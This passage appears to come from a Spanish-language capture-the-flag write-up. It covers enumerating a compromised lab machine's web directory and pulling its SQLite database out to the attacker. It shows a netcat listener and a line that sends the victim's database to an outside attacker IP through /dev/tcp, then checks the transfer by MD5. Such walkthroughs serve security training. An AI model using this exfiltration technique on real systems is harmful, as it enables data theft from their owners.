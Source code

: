 Esta lista de binarios no representa una vía potencial para escalar nuestros privilegios, por lo que seguiremos enumerando el sistema


## SQLite Database Analysis

Nos encontramos en el directorio donde se aloja la web, podemos intentar aprovechar recursos disponibles dentro de este directorio. Podemos listar recursivamente archivos con el comando `find` aplicando un filtro de archivos con `-type f`

~~~ bash
app-production@code:~/app$ find . -type f
./app.py
./static/css/styles.css
./templates/index.html
./templates/codes.html
./templates/register.html
./templates/login.html
./templates/about.html
./database.db
./__pycache__/app.cpython-38.pyc
./instance/database.db
~~~

Vemos que existe un archivo SQLite 3, que corresponde a un archivo de base de datos

~~~ bash
app-production@code:~/app$ file instance/database.db
instance/database.db: SQLite 3.x database, last written using SQLite version 3031001
~~~ 

### File Transfer

Para analizar este archivo de forma más cómoda, podemos transferir este archivo de base de datos a nuestra máquina atacante. Pondremos un puerto a la escucha para recibir el contenido del archivo `database.db`

~~~ bash
nc -lvnp 4444 > database.db
~~~

Desde la máquina víctima iniciamos un socket TCP que será el canal de comunicación con nuestra máquina, simplemente hacemos `cat` y redirigimos la salida a la ruta especial `/dev/tcp`

~~~ bash
app-production@code:~/app$ cat instance/database.db > /dev/tcp/10.10.14.187/4444
~~~

Podemos verificar la integridad del archivo calculando su hash MD5 en ambas máquinas (atacante y víctima). Ambos hashes deben coincidir, de lo contrario indicaría un error en la transferencia

~~~ bash
md5sum database.db                                   
d0d91c72ba4889ef333414f3f07964a4  database.db

app-production@code:~/app$ md5sum instance/database.db 
d0d91c72ba4889ef333414f3f07964a4  instance/database.db
~~~
